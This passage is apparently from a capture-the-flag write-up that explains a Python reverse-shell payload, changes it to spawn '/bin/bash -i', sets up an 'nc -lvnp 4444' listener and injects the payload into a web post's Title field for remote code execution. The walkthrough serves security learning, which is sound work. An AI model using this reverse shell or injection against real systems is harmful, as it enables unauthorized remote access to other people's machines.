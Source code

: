Here’s what this is doing **step-by-step**:

1. **Creates a TCP socket** (`socket.socket(socket.AF_INET,socket.SOCK_STREAM)`)
2. **Connects to the attacker's machine** on `IP: 4444`
	1. Be sure to change the IP to your connected IP!
3. **Redirects stdin, stdout, and stderr** to the socket (`os.dup2()`)
4. **Runs a command** (`subprocess.call(["/bin/cat", "flag.txt"])`)

---

### **The Important Part We Care About**

The key part we need to **modify** is:

```python
subprocess.call(["/bin/cat", "flag.txt"]);
```

- This is just **reading** `flag.txt`.
- Instead, we want to **spawn an interactive shell**.

#### **Making It Interactive**

To actually **get a shell**, we replace `cat flag.txt` with `/bin/bash -i`, like so:

```python
subprocess.call(["/bin/bash", "-i"]);
```

This ensures that when we **connect back**, we get an **interactive shell** instead of just a single command execution.

---

### **Also, Don’t Forget the Port!**

```python
s.connect(("ip",4444))
```

- The number **4444** is the **port we need to listen on**.
- Before running the payload, make sure to **set up a listener** on your attacking machine:
    
    ```bash
    nc -lvnp 4444
    ```
    
    This will **catch** the incoming connection and drop us into a shell.

---

### **Testing Our RCE Payload: Showtime**

Now that we’ve dissected our payload and know how it works, let’s take it for a **test drive**. We’ll first see what happens **before** we change the command inside.

1. **Craft a new message post** and drop the RCE payload right into the **Title** field.
2. **Save** the post and head back to `/home` to confirm it’s there.
